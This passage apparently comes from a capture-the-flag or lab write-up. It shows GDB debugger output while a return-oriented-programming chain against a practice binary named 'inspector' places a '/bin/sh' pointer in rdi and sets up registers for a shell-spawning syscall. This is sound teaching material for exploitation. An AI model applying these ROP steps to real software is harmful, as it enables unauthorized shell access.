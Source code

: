 ```
0x00007fffffffde08│+0x0038: 0x0000000000400625  →  <gadget_1+4> syscall 

code:x86:64 ────
     0x400629 <gadget_1+8>     ret    
     0x40062a <gadget_2+0>     push   rbp
     0x40062b <gadget_2+1>     mov    rbp, rsp
 →   0x40062e <gadget_2+4>     pop    rdi
     0x40062f <gadget_2+5>     ret    
     0x400630 <gadget_2+6>     pop    rbp
     0x400631 <gadget_2+7>     ret    
     0x400632 <gadget_3+0>     push   rbp
     0x400633 <gadget_3+1>     mov    rbp, rsp
```
Stack pointer is pointing to 400708
###### Breakpoint 3; Gadget B
```
Breakpoint 3, 0x0000000000400636 in gadget_3 ()

 registers ────
$rax   : 0x0               
$rbx   : 0x00007fffffffded8  →  0x00007fffffffe248  →  "/home/kali/Desktop/6-Week/inspector"
$rcx   : 0x00007ffff7f9eaa0  →  0x00000000fbad2088
$rdx   : 0x0               
$rsp   : 0x00007fffffffdde0  →  0x0000000000000000
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x00000000006022a1  →  0x6361616162616161 ("aaabaaac"?)
$rdi   : 0x0000000000400708  →  0x0068732f6e69622f ("/bin/sh"?)
$rip   : 0x0000000000400636  →  <gadget_3+4> pop rsi
$r8    : 0x0000000000602319  →  0x0000000000000000
```
We can see that `rdi` is now set to `0x0068732f6e69622f ("/bin/sh"?)`
```
 Registers, Stack, and Operations at Breakpoint

 code:x86:64 ────
     0x400631 <gadget_2+7>     ret    
     0x400632 <gadget_3+0>     push   rbp
     0x400633 <gadget_3+1>     mov    rbp, rsp
 →   0x400636 <gadget_3+4>     pop    rsi
     0x400637 <gadget_3+5>     ret    
     0x400638 <gadget_3+6>     pop    rbp
     0x400639 <gadget_3+7>     ret    
     0x40063a <gadget_4+0>     push   rbp
     0x40063b <gadget_4+1>     mov    rbp, rsp
```
Stack pointer is pointing to 0 to pop off

###### Breakpoint 4: Gadget C
```
Breakpoint 4, 0x000000000040063e in gadget_4 ()

registers ────
$rax   : 0x0               
$rbx   : 0x00007fffffffded8  →  0x00007fffffffe248  →  "/home/kali/Desktop/6-Week/inspector"
$rcx   : 0x00007ffff7f9eaa0  →  0x00000000fbad2088
$rdx   : 0x0               
$rsp   : 0x00007fffffffddf0  →  0x0000000000000000
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x0               
$rdi   : 0x0000000000400708  →  0x0068732f6e69622f ("/bin/sh"?)
$rip   : 0x000000000040063e  →  <gadget_4+4> pop rdx
$r8    : 0x0000000000602319  →  0x0000000000000000

stack ────
```